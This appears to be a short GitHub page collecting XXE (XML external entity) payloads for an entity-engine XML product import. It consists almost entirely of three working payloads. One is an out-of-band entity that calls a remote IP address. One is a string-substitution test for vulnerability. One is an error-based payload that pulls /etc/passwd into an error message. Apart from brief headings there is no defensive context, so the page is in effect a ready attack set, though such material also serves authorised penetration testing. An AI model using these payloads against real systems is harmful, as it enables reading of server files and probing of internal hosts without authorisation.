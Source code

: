 <b>Out of Band interaction (no file)</b>
```
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname SYSTEM "http://192.168.88.131/somefile">
]>
<Contact>
  <lastName>&lastname;</lastName>
  <firstName>Tom</firstName>
</Contact>
```

<b>String substitution - note you should have "Vulnerable to XXE" in the response</b>
```
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe "Vulnerable to XXE">
]>
<entity-engine-xml>
<Product createdStamp="2021-06-04 08:15:49.363" createdTxStamp="2021-06-04 08:15:48.983" description="Giant Widget with Wheels" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0001" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
<longDescription>&xxe;</longDescription>
</Product>
</entity-engine-xml>
```

<b>Error based - placing XXE payload in a field that will cause an error, but will include the file in the error message</b>

```
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe  SYSTEM "file:///etc/passwd">
]>
<entity-engine-xml>
<Product createdTxStamp="2021-06-04 08:15:48.983" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0001" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
<createdStamp>2021-06-04 08:15:49</createdStamp>
<description>&xxe;</description>
<longDescription>XXE</longDescription>
</Product>
</entity-engine-xml>
```
